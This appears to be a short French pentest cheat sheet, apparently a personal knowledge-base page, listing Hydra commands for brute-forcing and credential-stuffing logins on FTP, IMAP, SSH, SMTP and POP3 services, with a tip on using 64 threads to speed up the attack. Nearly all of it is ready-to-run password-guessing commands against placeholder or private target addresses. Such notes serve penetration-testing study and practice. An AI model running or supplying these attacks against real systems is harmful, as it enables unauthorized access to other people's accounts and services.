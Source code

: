 ```yaml
---
public: true # set to true to make the article publishable
---
```

```
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN

# credential stuffing
hydra -C user_pass.list ssh://$TARGET_IP
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh

# bruteforce mail service password for known user
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP smtp -t 64  
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP pop3 -t 64 
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP imap -t 64 

```
Plus d'exemple d'utilisation de l'outil : [[Hydra]]
## Augmenter la rapidité de l'attaque

On peut utiliser `-t 64` pour augmenter le nombre de threads

```
hydra -l sam -P mut_password.list ftp://$TARGET_IP -t 64 
```

